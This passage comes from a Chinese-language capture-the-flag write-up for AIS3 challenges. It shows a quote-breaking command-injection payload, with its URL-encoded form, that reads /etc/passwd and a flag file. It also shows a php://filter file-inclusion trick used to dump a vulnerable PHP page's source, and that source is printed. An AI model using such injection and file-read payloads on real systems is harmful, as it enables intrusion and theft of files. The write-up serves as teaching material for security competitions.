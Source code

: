     dev
    etc
    home
    lib
    lib64
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    ```
* 想當然，我們最想要知道的會是 `5qu1rr3l_15_4_k1nd_0f_b16_r47.txt` 之中的內容，所以 cat 一下 `/etc/passwd' &&cat ../../../5qu1rr3l_15_4_k1nd_0f_b16_r47.txt && cat '` url encode : `%2Fetc%2Fpasswd%27%20%26%26cat%20..%2F..%2F..%2F5qu1rr3l_15_4_k1nd_0f_b16_r47.txt%20%26%26%20cat%20%27`
* **Flag : AIS3{5qu1rr3l_15_4_k1nd_0f_b16_r47}**

### Shark
* Let's dive deep again this year.
* https://shark.ais3.org/
* 直接訪問網站，然後看到了唯一一個連結進到 `hint.txt` 中
    ```txt=
    Please find the other server in the internal network! (flag is on that server)

    GET http://some-internal-server/flag
    ```
    這個提示很像是去年的 d1v1n6 d33p3r
* 目前最想要知道的是 source code，試了一下，可以用 php 偽協議得到 source code `https://shark.ais3.org/?path=php://filter/convert.base64-encode/resource=index.php` 用 base64 decode 之後得到 source code 
    ```php=
    <?php

    if ($path = @$_GET['path']) {
        if (preg_match('/^(\.|\/)/', $path)) {
            // disallow /path/like/this and ../this
            die('<pre>[forbidden]</pre>');
        }
        $content = @file_get_contents($path, FALSE, NULL, 0, 1000);
        die('<pre>' . ($content ? htmlentities($content) : '[empty]') . '</pre>');
    }

    ?><!DOCTYPE html>
    <head>
        <title>🦈🦈🦈</title>
        <meta charset="utf-8">
    </head>
    <body>
        <h1>🦈🦈🦈</h1>
        <a href="?path=hint.txt">Shark never cries?</a>
    </body>
